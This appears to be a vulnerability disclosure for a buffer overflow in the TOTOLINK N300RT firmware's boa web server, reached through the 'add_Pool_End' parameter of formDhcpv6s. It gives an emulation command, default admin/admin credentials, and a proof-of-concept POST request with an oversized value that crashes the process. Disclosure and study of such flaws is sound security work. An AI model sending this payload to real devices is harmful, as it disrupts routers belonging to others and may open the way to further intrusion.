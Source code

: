 ## **Description**

A buffer overflow vulnerability was discovered in the TOTOLINK firmware N300RT-Ad-V4.0.0-B20211109.1137. The vulnerability arises from the improper input validation of the `'add_Pool_End'` parameter in the 'formDhcpv6s' interface of the file boa.

## ​**Affected Product**

- ​**Brand**: TOTOLINK
- ​**Product**: N300RT
- ​**Version**: V4.0.0-B20211109.1137

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d totolink ../FIRMWARE/TOTOLINK-N300RT-Ad-V4.0.0-B20211109.1137.web
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `admin`

The result of the simulation is as follows: 
![sim_res](work_record/TOTOLINK/N300RT_ad/5/img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'FUN_0044f0b8' is below:
![vulner_code.png](work_record/TOTOLINK/N300RT_ad/5/img/vulner_code.png)
Because of the problem of ghidra decompilation, the code in `FUN_00402610()` should actually use the strcpy function to copy the parameters obtained by POST to an address.
![vulner_code_1.png](work_record/TOTOLINK/N300RT_ad/5/img/vulner_code_1.png)
- ​**web_get_var** retrieves POST parameters.
- **strcpy()** is used without length checks, leading to a ​buffer overflow.​

## **Proof of Concept (PoC)**
### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /boafrm/formDhcpv6s HTTP/1.1  
Host: 192.168.0.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 313  
Origin: http://192.168.0.1
Connection: close  
Referer: http://192.168.0.1/tcpipwan.htm
Upgrade-Insecure-Requests: 1  
  
enabledpchv6s=1&add_Pool_End=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

After the request the `boa` process will crash.
![result](work_record/TOTOLINK/N300RT_ad/5/img/result.png)